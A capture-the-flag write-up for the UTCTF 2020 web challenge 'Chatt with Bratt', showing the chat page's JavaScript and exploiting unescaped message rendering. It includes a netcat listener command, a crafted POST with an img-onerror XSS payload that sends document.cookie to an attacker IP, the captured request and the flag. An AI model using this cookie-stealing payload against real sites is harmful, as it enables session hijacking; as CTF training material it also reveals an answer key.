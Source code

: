 # UTCTF 2020 – Chatt with Bratt

* **Category:** web
* **Points:** 50

## Challenge

> After announcing that he would be having an anonymous 1-on-1 AMA with randomly chosen, adoring fans, an engineering team hacked together a web app and likely forget to patch some obvious security holes. Anyway, you're one of the lucky fans chosen to chatt with Bratt Pid! Have fun: web3.utctf.live:8080
> 
> by phleisch

## Solution

The website simulates a chat with a VIP. Analyzing the HTML, some interesting JavaScript code can be found.

```html
    <script>
		function addMessage(content, name) {
			const messageBody = document.getElementById('message-body');
			const card = document.createElement("div");
			card.className = "card";
			const cardHeader = document.createElement("div");
			cardHeader.className = "card-header";
			const strongName = document.createElement("strong");
			strongName.innerHTML = name;
			cardHeader.appendChild(strongName);
			card.appendChild(cardHeader);
			const cardBody = document.createElement("div");
			cardBody.className = "card-body";
			const cardText = document.createElement("p");
			cardText.className = "card-text";
			cardText.innerHTML = content;
			cardBody.appendChild(cardText);
			card.appendChild(cardBody);
			messageBody.appendChild(card);
			return;
		}
	</script>

	<script>
		function showMessages(data) {
			const messageBody = document.getElementById('message-body');
			if (data.Messages.length == messageBody.children.length) {
				return;
			}
			const sortedMessages = data.Messages.sort((a, b) => b.Msg_Sent - a.Msg_Sent)
			messageBody.textContent = '';
			sortedMessages.forEach(message => {
				const name = message.User_ID == 1 ? "Anon" : "Bratt Pid";
				addMessage(message.Content, name);
			});
		}
	</script>
	
	<script>
		function loadMessages() {
			fetch('/messages')
				.then((response) => {
					return response.json();
				})
				.then((data) => {
					showMessages(data);
				});
			setTimeout(loadMessages, 10000);
		}
	</script>

	<script>
	  function sendMessage() {
		const message = document.getElementById('message'); 
		
		if (message.value === "") {
		  return false;
		}

		addMessage(message.value, "Anon");

		const data = {content: message.value}
		fetch('/chatt', {
		  method: 'POST',
		  body: JSON.stringify(data)
		});
		
		message.value = "";
		return true;
	  }
	</script>
```

Peforming some tests, you can discover that chat functionality is vulnerable to HTML tag injection, because the message sent to the server is than reflected into the web page and it is not escaped. An XSS can be performed using the `img` tag and the `onerror` attribute.

Analyzing cookies, an interesting cookie called `secret` can be found, but it is set to `none` value.

A listening server can be set up using *netcat*, e.g. `nc -lkv 1337`.

The following HTTP request can be crafted to attack the chat endpoint and steal cookies of the VIP user.

```
POST /chatt HTTP/1.1
Host: web3.utctf.live:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: */*
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://web3.utctf.live:8080/chatt
Content-Type: text/plain;charset=UTF-8
Origin: http://web3.utctf.live:8080
Content-Length: 115
Connection: close
Cookie: chat_id=d9ab6df5-6175-11ea-ae82-ee665abdd353; secret=none

{"content":"<img src=\"foo.png\" onerror=\"document.location='http://xxx.xxx.xxx.xxx:1337?c='+document.cookie;\" />"}
```

On the listening server you will find the request sent by the victim browser.

```
Connection from ec2-18-213-193-80.compute-1.amazonaws.com 5015 received!
GET /?c=chat_id=d9ab6df5-6175-11ea-ae82-ee665abdd353;%20secret=utflag{95debad95cfb106081f33ceadc36bf9c} HTTP/1.1
Host: xxx.xxx.xxx.xxx:1337
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/80.0.3987.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://127.0.0.1:8080/chatt
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

The `secret` cookie will contain the flag.

```
utflag{95debad95cfb106081f33ceadc36bf9c}
```